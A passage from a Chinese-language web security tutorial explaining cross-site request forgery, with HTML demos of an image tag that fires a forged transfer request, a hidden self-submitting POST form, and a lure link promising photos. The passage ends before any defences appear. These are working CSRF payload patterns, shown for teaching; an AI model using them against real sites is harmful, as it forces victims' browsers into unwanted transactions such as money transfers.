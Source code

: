 ### CSRF 和 XSS

#### CSRF

> CSRF（Cross-site request forgery）即**跨站请求伪造**。**是一种劫持受信任用户向服务器发送非预期请求**的攻击方式，通常情况下，它是**攻击者借助受害者的 Cookie 骗取服务器的信任**，但是它并不能拿到 Cookie，也看不到 Cookie 的内容，它能做的就是给服务器发送请求，然后执行请求中所描述的命令，以此来改变服务器中的数据，也就是并不能窃取服务器中的数据。

##### 类型：

- **自动发起 Get 请求**

  ```html
  <!DOCTYPE html>
  <html>
    <body>
      <h1>黑客的站点：CSRF 攻击演示</h1>
      <img src="https://jsliang.top/index.html?user=hacker&number=100" />
    </body>
  </html>
  ```

  黑客将转账的请求接口隐藏在 `img` 标签内，欺骗浏览器这是一张图片资源。

  当该页面被加载时，浏览器会自动发起 `img` 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 块就被转移到黑客的账户上去了。

- **自动发起 POST 请求**

  ```html
  <!DOCTYPE html>
  <html>
    <body>
      <h1>黑客的站点：CSRF 攻击演示</h1>
      <form id="hacker-form" action="https://jsliang.top" method="POST">
        <input type="hidden" name="user" value="hacker" />
        <input type="hidden" name="number" value="100" />
      </form>
      <script>
        document.getElementById('hacker-form').submit();
      </script>
    </body>
  </html>
  ```

  在页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。

  当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。

  因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交。

- **引诱用户点击链接**

  ```html
  <div>
    <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg>
  </div>
  <div>
    <a href="https://jsliang.top?user=hacker&number=100" taget="_blank">
      点击下载美女照片
    </a>
  </div>
  ```
